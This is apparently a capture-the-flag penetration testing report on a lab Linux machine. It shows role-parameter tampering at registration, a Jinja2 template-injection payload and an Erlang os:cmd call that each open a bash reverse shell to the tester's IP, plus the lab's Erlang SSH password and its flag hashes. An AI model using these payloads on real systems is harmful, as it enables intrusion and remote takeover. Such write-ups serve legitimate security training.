# UniTech — Penetration Testing Report

**Machine:** UniTech

**IP Address:** 10.15.1.91

**Operating System:** Linux

**Difficulty:** Easy/Medium

---

## Executive Summary

Successfully compromised the UniTech machine through a chain of three distinct vulnerabilities: a broken access control flaw allowing privilege escalation at registration, a Server-Side Template Injection (SSTI) vulnerability in an admin notification template engine leading to remote code execution as `www-data`, and an exposed Erlang SSH daemon on an internal port with a weak default password enabling full root access.

**Attack Path:**

```
Nmap Scan → Subdomain Fuzzing → /etc/hosts → portal.unitech.ms
     ↓
Registration with Role Manipulation (user → admin)
     ↓
Admin Dashboard Access → Notification Template SSTI
     ↓
Reverse Shell (www-data) → User Flag
     ↓
Internal Port Discovery (2222/Erlang SSH) → Password: azreal
     ↓
Erlang Shell → os:cmd() RCE → Root Reverse Shell → Root Flag
```

**Flags:**

| Flag | Hash |
| --- | --- |
| User (`/home/www-data/user.txt`) | `5141b3a34ae5c981ad0b09e24d162bb0` |
| Root (`/root/root.txt`) | `eb50bf731aaa4a54981feefac91c8a6f` |

---

## 1. Reconnaissance & Enumeration

### 1.1 Port Scanning

We initiated a full TCP port scan with service and script detection against the target:

```bash
sudo nmap -sS -sC -sV -p- -T4 10.15.1.91
```



**Results:**

| Port | State | Service | Version |
| --- | --- | --- | --- |
| 22/tcp | open | ssh | OpenSSH 9.6p1 Ubuntu 3ubuntu13 |
| 80/tcp | open | http | nginx/1.24.0 (Ubuntu) |
| 4369/tcp | open | epmd | Erlang Port Mapper Daemon |

**Key observations:**

- Port 80 responded with the title `UniTech Solutions – Innovative Technology Services` and server header `nginx/1.24.0`.
- Port 4369 is the Erlang Port Mapper Daemon (EPMD). Its presence is a strong indicator that an Erlang node is running on the system, potentially exposing additional Erlang-related services on internal ports.
- SSH host keys returned both ECDSA and ED25519 fingerprints.



---

### 1.2 Subdomain Fuzzing

With a domain name (`unitech.ms`) implied by the HTTP title and nginx response, we performed virtual host fuzzing to discover additional subdomains:

```bash
ffuf -u http://unitech.ms/ \
  -H "Host: FUZZ.unitech.ms" \
  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
  -ac
```



**Result:**

| Subdomain | Status | Size |
| --- | --- | --- |
| portal | 302 | 199 bytes |

ffuf discovered the subdomain `portal.unitech.ms` returning HTTP 302, indicating a redirect to a login or landing page.

---

### 1.3 /etc/hosts Configuration

With the discovered subdomain confirmed, we updated `/etc/hosts` to resolve both virtual hosts locally:

```
echo '10.15.1.91    unitech.ms'  >> /etc/hosts
echo '10.15.1.91    portal.unitech.ms'  >> /etc/hosts
```



This allowed the browser and tooling to correctly route requests to both the main site and the client portal.

---

### 1.4 Web Application Analysis — portal.unitech.ms

Navigating to `http://portal.unitech.ms/login` presented a standard login page for the "UniTech Portal" client account system. The page also offered a **Create Account** option via `http://portal.unitech.ms/register`.



The registration form collected: Full Name, Username, Email Address, Company Name, Password, and Confirm Password.

---

## 2. Exploitation

### Phase 1 — Broken Access Control via Role Parameter Manipulation

### 2.1 Registration Request Interception

We registered a test account and intercepted the POST request to `/register` using Burp Suite Repeater. The raw request body was:

```
full_name=alex&username=alex&email=theuser%40gmail.com&company=&password=11111111&confirm_password=11111111&role=user
```



**Critical observation:** The `role` parameter was included in the client-side POST body. The server accepted and trusted this value rather than assigning roles server-side.

### 2.2 Role Parameter Tampering

We modified the `role` parameter from `user` to `admin` before sending the request:

```
full_name=alex&username=alex&email=theuser%40gmail.com&company=&password=11111111&confirm_password=11111111&role=admin
```

The server processed the registration without any validation or authorization check on the role field.

### 2.3 Admin Dashboard Access

Logging in with the newly created credentials granted direct access to `http://portal.unitech.ms/admin` — the full administrative dashboard.

**Admin credentials used:**

- **Username:** alex
- **Password:** 11111111
- **Role assigned:** Admin (via parameter manipulation)



---

### Phase 2 — Server-Side Template Injection (SSTI) → Remote Code Execution

### 2.4 Notification Template Engine Discovery

Navigating to `http://portal.unitech.ms/admin/notifications` revealed a **Notification Templates** editor. The page allowed administrators to create and preview custom notification templates using dynamic variables.

The hint "Use dynamic variables in your template for personalization" and the preview functionality strongly indicated **server-side template rendering** — a common SSTI attack surface.

### 2.5 SSTI Payload Crafting

We identified the template engine as Python-based. We crafted a Jinja2/Python SSTI payload to achieve remote code execution and spawn a reverse shell:

```
{{self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /dev/tcp/10.13.1.108/4444 0>&1"').read()}}
```



**Payload breakdown:**

| Component | Purpose |
| --- | --- |
| `self.__init__.__globals__` | Access the global namespace from the template context |
| `.__builtins__` | Reach Python builtins |
| `.__import__('os')` | Import the OS module |
| `.popen(...)` | Execute a system command |
| `bash -i >& /dev/tcp/...` | Open an interactive reverse bash shell |

### 2.6 Listener Setup & Shell Receipt

On the attack machine, we started a netcat listener before submitting the template:

```bash
nc -lvnp 4444
```

After clicking **Preview Template**, the server evaluated the payload and the reverse shell connected:



We obtained a shell as `www-data`

---

## 3. Initial Access — User Flag

### 3.1 User Flag Retrieval

```bash
cd ~
cat user.txt
# 5141b3a34ae5c981ad0b09e24d162bb0
```

---

## 4. Privilege Escalation

### 4.1 Internal Port Enumeration

We enumerated all listening sockets on the host:

```bash
ss -natup
```



**Results:**

| Proto | State | Local Address | Notable Process |
| --- | --- | --- | --- |
| tcp | LISTEN | 127.0.0.1:5000 | gunicorn (pid 820, 320, 232) |
| tcp | LISTEN | 127.0.0.1:2222 | — |
| tcp | LISTEN | 127.0.0.53:53 | DNS |

Port **2222** was listening exclusively on localhost — not exposed externally. This was not visible in the initial nmap scan.

### 4.2 Erlang SSH Service Identification

We probed port 2222 with netcat:

```bash
nc 127.0.0.1 2222
# SSH-2.0-Erlang/4.15.3.1
```



This confirmed the service is an **Erlang SSH daemon** — not a standard OpenSSH instance. Erlang SSH is often deployed as part of OTP (Open Telecom Platform) applications and can expose an Erlang shell interface rather than a standard UNIX shell.

### 4.3 Erlang SSH Authentication

The presence of EPMD on port 4369 (seen in the nmap scan) and the Erlang SSH daemon on 2222 suggested a default or weak Erlang node password. We first upgraded our shell to a PTY to handle the interactive SSH session:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

We then connected via SSH to the internal Erlang daemon:

```bash
ssh -p 2222 root@127.0.0.1
```

When prompted for the password, we supplied: `azreal`



Authentication succeeded. Instead of a standard UNIX shell, the session dropped into an **Erlang interactive shell (Eshell)**:

```
Eshell V13.2.2.5  (abort with ^G)
1>
```

### 4.4 Erlang Shell — Remote Code Execution as Root

Erlang's `os:cmd/1` function executes shell commands as the process owner. Since the Erlang node was running as root, any `os:cmd()` call executes with root privileges. We used this to spawn a second reverse shell back to our listener:

```erlang
os:cmd("bash -c 'bash -i >& /dev/tcp/10.13.1.108/4444 0>&1'").
```

On our listener (started fresh on port 4444):

```bash
nc -lvnp 4444
```



Full root access achieved.

---

## 5. Root Flag

```bash
cd /root
cat root.txt
# eb50bf731aaa4a54981feefac91c8a6f
```



IP verification confirmed same host (`10.15.1.91/23`), same machine as the initial foothold.

---

## 6. Attack Chain Summary

```
[1] Nmap scan → Ports 22, 80, 4369 (EPMD) discovered
     ↓
[2] ffuf subdomain fuzzing → portal.unitech.ms (HTTP 302) found
     ↓
[3] /etc/hosts updated → unitech.ms, portal.unitech.ms resolved
     ↓
[4] portal.unitech.ms/register → registration form intercepted in Burp
     ↓
[5] role=user → role=admin (parameter manipulation) → account created as Admin
     ↓
[6] Login → /admin dashboard access confirmed
     ↓
[7] /admin/notifications → Template Editor → SSTI payload injected
     ↓
[8] Preview Template clicked → Jinja2 SSTI evaluated → reverse shell as www-data
     ↓
[9] cat ~/user.txt → User flag: 5141b3a34ae5c981ad0b09e24d162bb0
     ↓
[10] ss -natup → port 2222 localhost (Erlang SSH) discovered
     ↓
[11] nc 127.0.0.1 2222 → SSH-2.0-Erlang/4.15.3.1 confirmed
     ↓
[12] ssh -p 2222 root@127.0.0.1 → password: azreal → Eshell access
     ↓
[13] os:cmd("bash reverse shell") → root shell on nc listener
     ↓
[14] cat /root/root.txt → Root flag: eb50bf731aaa4a54981feefac91c8a6f
```

---

## 7. Vulnerability Summary

| # | Vulnerability | Severity | CVSS (est.) | Impact |
| --- | --- | --- | --- | --- |
| 1 | Broken Access Control — Client-Side Role Assignment | **Critical** | 9.8 | Any registrant can self-assign admin role |
| 2 | Server-Side Template Injection (SSTI) — Jinja2 | **Critical** | 9.8 | Unauthenticated (post-auth) RCE as www-data |
| 3 | Erlang SSH Exposed Internally with Weak Password | **High** | 8.4 | Root-level OS command execution via Erlang shell |
| 4 | Stored Cross-Site Scripting (XSS) — Ticket System | **Medium** | 6.1 | Malicious scripts rendered in admin dashboard |
| 5 | Erlang Port Mapper Daemon (EPMD) Externally Exposed | **Low** | 3.7 | Service fingerprinting, Erlang node enumeration |

---

## 8. Tools Used

| Tool | Purpose |
| --- | --- |
| nmap | Port scanning, service/version detection, script scanning |
| ffuf | Virtual host / subdomain fuzzing |
| Burp Suite | HTTP request interception and parameter manipulation |
| netcat (nc) | Reverse shell listener, internal port probing |
| Python3 | PTY shell upgrade for interactive SSH session |
| ssh | Connection to internal Erlang SSH daemon on port 2222 |

---

## 10. Key Lessons & Conclusion

**Time to Compromise:** Approximately ~ 1.5 hours

**Difficulty:** Easy/Medium — the attack chain required chaining three distinct vulnerabilities, but each individual step was straightforward once the prior step was completed. No CVE exploitation or binary exploitation was required; all vulnerabilities were logic and configuration flaws.

---

Happy hacking!